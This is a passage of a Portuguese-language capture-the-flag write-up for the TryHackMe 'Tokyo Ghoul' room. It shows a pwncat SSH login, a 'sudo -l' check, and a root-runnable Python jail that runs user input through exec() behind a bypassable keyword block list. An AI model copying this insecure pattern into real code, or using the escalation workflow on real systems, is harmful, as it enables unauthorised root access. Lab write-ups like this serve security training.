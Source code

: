 ![Untitled](TryHackMe%20-%20Tokyo%20Ghoul%20f3445adefbf44ffda5af426f0caa1101/Untitled%208.png)

## Exploração (Acesso Inicial)

- Comando: `pwncat-cs ssh://kamishiro@10.10.208.57`

```console
01:55:24 root@m1thr4d1r tokyoghoul → pwncat-cs ssh://kamishiro@10.10.208.57
/root/.local/pipx/venvs/pwncat-cs/lib/python3.10/site-packages/paramiko/transport.py:178: CryptographyDeprecationWarning: Blowfish has been deprecated
  'class': algorithms.Blowfish,
[13:56:45] Welcome to pwncat 🐈!                                        __main__.py:164
Password: ***********
[13:57:16] 10.10.208.57:22: registered new host w/ db                    manager.py:957
(local) pwncat$                                                                        
(remote) kamishiro@vagrant:/home/kamishiro$ id
uid=1001(kamishiro) gid=1001(kamishiro) groups=1001(kamishiro)
```

## Pós-Exploração (Escaneamento Interno)

- Comando: `sudo -l`

```console
[sudo] password for kamishiro: 
Matching Defaults entries for kamishiro on vagrant.vm:
    env_reset, exempt_group=sudo, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User kamishiro may run the following commands on vagrant.vm:
    (ALL) /usr/bin/python3 /home/kamishiro/jail.py
```

```python
#! /usr/bin/python3
#-*- coding:utf-8 -*-
def main():
    print("Hi! Welcome to my world kaneki")
    print("========================================================================")
    print("What ? You gonna stand like a chicken ? fight me Kaneki")
    text = input('>>> ')
    for keyword in ['eval', 'exec', 'import', 'open', 'os', 'read', 'system', 'write']:
        if keyword in text:
            print("Do you think i will let you do this ??????")
            return;
    else:
        exec(text)
        print('No Kaneki you are so dead')
if __name__ == "__main__":
    main()
```